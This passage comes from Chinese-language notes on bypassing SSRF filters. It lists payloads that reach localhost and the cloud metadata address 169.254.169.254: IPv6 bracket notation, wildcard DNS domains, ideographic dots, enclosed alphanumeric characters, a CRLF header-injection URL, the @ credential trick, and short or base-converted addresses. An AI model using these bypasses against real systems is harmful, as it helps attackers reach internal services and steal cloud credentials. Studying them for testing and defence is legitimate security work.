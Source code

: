 ```
```
![](2024-01-23-19-59-08.png)
4. 利用特殊域名
```
原理是DNS解析。xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1 (xip.io 现在好像用不了了，可以找找其他的)
``` 
5. 利用[::]
```
可以利用[::]来绕过localhost
http://169.254.169.254>>http://[::169.254.169.254]
# 这种写法是ipv6的地址写法，只要对方支持ipv6的ip地址访问就行，需要配置才行，比如nginx就可以配置ipv6来访问
```
6. 利用句号
```
127。0。0。1 >>> 127.0.0.1
比如： ping 127。0。0。1，注意，linux系统才能识别，windows系统不能识别
```
7. CRLF编码绕过
```
%0d->0x0d->\r回车
%0a->0x0a->\n换行
进行HTTP头部注入
example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
```
8. 利用封闭的字母数字
```
利用Enclosed alphanumerics，有些输入法直接就可以输入这样的封闭字符
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
比如ping ①②⑦.⓪.⓪.① 注意，也是linux系统支持
```
### 二、常见限制
1. 限制为http://www.xxx.com 域名
```
采用http基本身份认证的方式绕过，即@
http://www.xxx.com@www.xxc.com
```
2. 限制请求IP不为内网地址
```
当不允许ip为内网地址时：
（1）采取短网址绕过
（2）采取特殊域名
（3）采取进制转换
```